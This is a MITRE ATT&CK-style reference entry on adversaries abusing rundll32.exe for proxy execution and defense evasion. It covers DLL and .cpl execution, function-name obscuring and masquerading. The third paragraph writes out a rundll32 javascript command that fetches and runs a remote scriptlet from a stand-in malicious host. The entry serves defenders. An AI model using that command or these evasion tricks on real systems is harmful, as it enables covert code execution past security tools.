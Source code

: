 ```yaml
---
alias: Rundll32
---
```


## Rundll32

Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll) DLL functions can also be exported and executed by an ordinal number (ex: <code>rundll32.exe file.dll,#1</code>).

Additionally, adversaries may use [Masquerading](https://attack.mitre.org/techniques/T1036) techniques (such as changing DLL file names, file extensions, or function names) to further conceal execution of a malicious payload.(Citation: rundll32.exe defense evasion) 


### Tactic

- [[Defense Evasion]] (TA0005)


---
### References

- mitre-attack: https://attack.mitre.org/techniques/T1218/011
- rundll32.exe defense evasion: https://www.cynet.com/attack-techniques-hands-on/defense-evasion-techniques/
- Attackify Rundll32.exe Obscurity: https://www.attackify.com/blog/rundll32_execution_order/
- This is Security Command Line Confusion: https://thisissecurity.stormshield.com/2014/08/20/poweliks-command-line-confusion/
- Github NoRunDll: https://github.com/gtworek/PSBits/tree/master/NoRunDll
- Trend Micro CPL: https://www.trendmicro.de/cloud-content/us/pdfs/security-intelligence/white-papers/wp-cpl-malware.pdf
